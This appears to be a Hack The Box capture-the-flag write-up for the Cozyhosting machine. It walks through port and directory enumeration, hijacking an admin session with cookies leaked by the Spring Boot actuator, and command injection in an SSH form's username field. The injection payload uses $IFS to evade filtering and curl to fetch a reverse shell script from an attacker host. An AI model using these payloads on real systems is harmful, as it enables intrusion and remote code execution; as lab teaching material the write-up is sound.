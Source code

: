 ```yaml
---
title: HTB Cozyhosting Writeup
date: 2023-10-13 09:20:16 +0600
categories: [Linux, Easy]
tags: [htb]     
---
```


![Cozyhosting Pwned](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/cozyhosting-htb/cozyhosting_pwned.PNG "Pwned haha!!")

# Introduction
Hi, Hackers!!. Today we will solve the HTB machine Cozyhosting. It is a fun linux machine. And also tagged as Easy. Let's dive into the fun stuff
without wasting any time.

# Enumeration
Just like as usual, when you approach a machine or box, first thing to do is to scan for open ports. For scanning ports, you can use the traditional tool `Nmap`. But `Nmap` is kinda slow. As an alternative, we can use `Rustscan` or `threader3000`. I used `Rustscan` for scanning. Found the ports 22 and 80 open.

![Cozyhosting Rustscan](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/cozyhosting-htb/cozyhosting_rustscan.png)

And also found what services are running in those open ports.

![Cozyhosting Services](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/cozyhosting-htb/cozyhosting_nmap_service.png)

If you search with the given IP in your browser, you will be redirected to `http://cozyhosting.htb`. So we need to add the IP and hostname in the hosts file. For linux, it's `/etc/hosts` and for windows, it's `c:\Windows\System32\Drivers\etc\hosts`.

Then we get,

![Home Page](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/cozyhosting-htb/cozyhosting_port80.png)

And We found a login page too.

![Login Page](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/cozyhosting-htb/cozyhosting_login.png)

But we still don't know what could be under there. So I searched for `robots.txt`. And I found this.

![Error Page](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/cozyhosting-htb/cozyhosting_error.png)

I googled it and found that it's a `Sprint Boot` framework. Next, let's search for more directories. As it is a spring boot framework, you can use `seclists` spring boot wordlist. I used dirsearch.

![Found More](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/cozyhosting-htb/cozyhosting_dirsearch.png)

We found a couple of `actuator` directories and found `admin` page which is giving unauthorized(401). Let's visit this `actuator` dir...

![Actuator Dir](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/cozyhosting-htb/cozyhosting_actuator.png)

The important one could be `sessions`. Let's see....

![Sessions Dir](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/cozyhosting-htb/cozyhosting_sessions.png)

These are session cookies that we found. This could be useful for session hijacking through `/admin` page. Using one of the session cookies,
send the request to `/admin` page.

![Session Req](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/cozyhosting-htb/cozyhosting_req.PNG)

Now we are in the admin page.

![Admin Dashboard](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/cozyhosting-htb/cozyhosting_admin_dashboard.png)

And a form for ssh connections, I suppose.

![SSH Form](https://raw.githubusercontent.com/ImdadMiran17/ImdadMiran17.github.io/main/assets/img/cozyhosting-htb/cozyhosting_admin_form.png)

# Foothold

As the form is running ssh, we should find out if we can find command injection. Let's analyze a normal behavior first.

```Request

POST /executessh HTTP/1.1
Host: cozyhosting.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 23
Origin: http://cozyhosting.htb
Connection: close
Referer: http://cozyhosting.htb/admin
Upgrade-Insecure-Requests: 1

host=test&username=test

```

```Response

HTTP/1.1 302 
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 14 Oct 2023 13:15:03 GMT
Content-Length: 0
Location: http://cozyhosting.htb/admin?error=ssh: Could not resolve hostname test: Temporary failure in name resolution
Connection: close
X-Content-Type-Options: nosniff
X-XSS-Protection: 0
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
X-Frame-Options: DENY

```

Let's examine the host parameter. we can use ``id`` or `$(id)`

```Request

POST /executessh HTTP/1.1
Host: cozyhosting.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Origin: http://cozyhosting.htb
Connection: close
Referer: http://cozyhosting.htb/admin
Upgrade-Insecure-Requests: 1

host=$(id)&username=test

```

```Response

HTTP/1.1 302 
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 14 Oct 2023 13:26:39 GMT
Content-Length: 0
Location: http://cozyhosting.htb/admin?error=Invalid hostname!
Connection: close
X-Content-Type-Options: nosniff
X-XSS-Protection: 0
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
X-Frame-Options: DENY

```
Gave invalid. Let's try the username parameter now.

```Request

POST /executessh HTTP/1.1
Host: cozyhosting.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/118.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 24
Origin: http://cozyhosting.htb
Connection: close
Referer: http://cozyhosting.htb/admin
Upgrade-Insecure-Requests: 1

host=test&username=$(id)

```

```Response

HTTP/1.1 302 
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 14 Oct 2023 13:32:03 GMT
Content-Length: 0
Location: http://cozyhosting.htb/admin?error=ssh: Could not resolve hostname `uid=1001(app)`: Name or service not known
Connection: close
X-Content-Type-Options: nosniff
X-XSS-Protection: 0
Cache-Control: no-cache, no-store, max-age=0, must-revalidate
Pragma: no-cache
Expires: 0
X-Frame-Options: DENY

```

Now we get a response. It's responding with uid result. We have a command injection vulnerability. Let's try to get a reverse shell. As it doesn't take whitespace, we have to replace all whitespaces. We can use `$IFS` for it. The command that should help us: `$(IFS=_;Com=id;$Com)`

To store a reverse shell in the server, we can use the `curl` command as `wget` doesn't work here. Open a server with python: `python3 -m http.server 4444`. Then we can download the reverse shell with `curl`. So the payload would be: `$(IFS=_;Com=curl_http://10.10.10.10/shell.sh_-w_/tmp/shell.sh;$Com)`

Then after giving the execute permission, if we run the shell We will get a reverse shell.

# Lateral Movement

We got the shell, but not a stable one. Let's stable it first. Python3 is available in the server as it happens.

```bash
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
ctrl+z(bg)
$ stty raw -echo;fg
$ export TERM = xterm
```



